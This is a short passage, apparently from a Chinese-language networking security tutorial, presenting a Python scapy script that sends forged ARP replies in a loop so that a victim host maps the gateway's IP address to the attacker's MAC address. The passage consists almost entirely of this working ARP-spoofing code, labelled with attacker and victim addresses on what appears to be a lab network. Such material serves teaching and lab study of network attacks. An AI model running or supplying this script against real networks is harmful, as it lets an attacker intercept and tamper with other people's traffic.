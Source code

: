 - 也可以通过scapy构造arp reply包实现同样效果

```python
from scapy.all import (Ether,ARP,sendp)


def main():
    eth = Ether()
    arp = ARP(
        op = "is-at", #arp reply

        hwsrc = "08:00:27:ef:41:a5", #attacker's MAC address

	psrc = "192.168.56.1", #gateway's IP address

	hwdst = "08:00:27:9b:9e:59", #victim's MAC address
	
	pdst = "192.168.56.2" #victim's IP address

             )
    sendp(eth/arp , inter=2,loop=1)

if __name__ == '__main__':
    main()

```

- </br>![](scapy_arpspoof.jpg)
